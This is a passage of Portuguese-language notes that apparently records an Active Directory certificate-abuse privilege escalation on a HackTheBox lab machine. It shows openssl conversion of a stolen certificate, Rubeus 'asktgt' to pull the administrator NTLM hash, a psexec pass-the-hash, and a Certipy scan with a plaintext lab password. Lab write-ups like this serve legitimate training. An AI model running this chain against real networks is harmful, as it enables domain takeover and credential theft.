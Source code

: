     [*] Convert with: openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
    
    Certify completed in 00:00:13.7872615
    
    ```
    
    Criar o `cert.pem` e colar tanto a chave publico como a privada para o certificados
    
    Utilizar o seguinte comando para o certificado extraído
    
    `openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx`
    
    Fazer upload do `cert.pfx` e `Rubeus.exe` para a maquina windows
    
    `.\Rubeus.exe asktgt /user:administrator /certificate:C:\programdata\cert.pfx /getcredentials /show /nowrap` 
    
    ![Untitled](Privelige%20excalation%20959f3e5c95f04c0cb21f30f9a00bb8c7/Untitled%208.png)
    
    A Hash NTLM é `A52F78E4C751E5F5E17E1E9F3E58F4EE` 
    
    `python3 /usr/share/doc/python3-impacket/examples/psexec.py -hashes A52F78E4C751E5F5E17E1E9F3E58F4EE:A52F78E4C751E5F5E17E1E9F3E58F4EE administrator@10.129.228.253`
    
- Certipy 1
    
    `certipy find -u ryan.cooper -p NuclearMosquito3 -target sequel.htb -text -stdout -vulnerable`
    
    ```
    └──╼ [★]$ certipy find -u ryan.cooper -p NuclearMosquito3 -target sequel.htb -text -stdout -vulnerable
    Certipy v4.8.2 - by Oliver Lyak (ly4k)
    